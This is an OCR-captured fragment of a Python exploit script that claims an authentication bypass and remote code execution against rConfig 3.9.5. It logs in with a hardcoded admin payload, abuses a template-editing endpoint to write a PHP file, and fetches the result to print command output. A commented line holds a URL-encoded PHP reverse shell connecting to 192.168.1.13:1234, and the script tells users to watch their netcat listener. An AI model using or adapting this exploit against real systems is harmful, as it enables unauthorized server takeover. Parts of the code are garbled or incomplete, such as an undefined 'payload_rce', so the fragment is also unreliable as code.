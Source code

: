         elif  "Admin" in users.text:

           print("(+) There is at least one Admin user, check "+ str(url)+"useradmin.inc.php manually and modify the exploit accordingly (erase the if-elif statements of this function and modify the user payload)")

        

    def template():

        payload = {

        'user': 'admin',

        'pass': 'Testing1@',

        'sublogin': '1'

    }

        

        #<%3fphp+%24sock%3Dfsockopen%28%22192.168.1.13%22%2C1234%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%3f>

        headers_rce = {'Content-Type': "application/x-www-form-urlencoded; charset=UTF-8", "Referer": url+"deviceConnTemplates.php", "Origin":origin, "X-Requested-With": "XMLHttpRequest", "Accept-Language": "en-US,en;q=0.5"}

        with requests.Session() as s:

             p = s.post(url+'lib/crud/userprocess.php', data=payload, verify=False)

             if "Stephen Stack" in p.text:

                print("(-) Exploit failed, could not login as user test")

             else:

                print("(+) Log in as admin completed")

                rce=s.post(url+'lib/ajaxHandlers/ajaxEditTemplate.php', verify=False, data=payload_rce, headers=headers_rce)

                if "success" in rce.text:

                    print("(+) File created")

                    rce_req = s.get(url+'test.php.yml', verify=False)

                    print("(+) Command results: ")

                    print(rce_req.text)

                else:

                    print("(-) Error when executing payload, please debug the exploit")

     

    def main():

        print("Remote Code Execution + Auth bypass rConfig 3.9.5 by Daniel Monzón")

        print("In the last stage if your payload is a reverse shell, the exploit may not launch the success message, but check your netcat ;)")
